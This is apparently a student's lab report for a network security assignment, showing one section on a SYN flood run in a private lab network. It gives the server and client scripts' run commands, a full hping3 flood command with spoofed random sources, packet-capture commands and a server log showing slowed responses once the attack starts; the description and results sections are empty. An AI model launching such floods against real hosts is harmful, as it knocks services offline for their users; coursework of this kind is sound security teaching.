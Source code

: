# CENG489 PA2

This report is intended to explain the process and results of the attacks made in different settings for the sake of the assignment. For the ease of readability and grading, the report is divided into sections, each for one single attack.

## Attack 1: SYN Flood

### Description

### Attack Scenario

#### Network Topology

#### Attack Process

```bash
python3 scripts/01-syn-flood/server.py
```

```bash
python3 scripts/01-syn-flood/client.py
```

```bash
sudo hping3 -c 150000 -d 120 -S -w 64 -p 4444 --flood --rand-source 192.168.56.101
```

```bash
sudo tcpdump -i enp0s8 -w 01-syn-flood-attacker.pcap -s 96
```

```bash
sudo tcpdump -i enp0s8 -w 01-syn-flood-server.pcap -s 96
```

```bash
serving at port 4444
192.168.56.102 - - [21/Jun/2022 14:05:46] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:47] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:49] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:50] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:51] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:52] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:53] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:54] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:55] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:56] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:57] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:58] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:59] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:00] "GET / HTTP/1.1" 200 - # Attack starts here
192.168.56.102 - - [21/Jun/2022 14:06:02] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:04] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:05] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:12] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:33] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:36] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:39] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:41] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:07:01] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:07:02] "GET / HTTP/1.1" 200 -
```

![](images/01_attacker.png)

![](images/01_server.png)

### Results

## APPENDIX

### Repository Structure

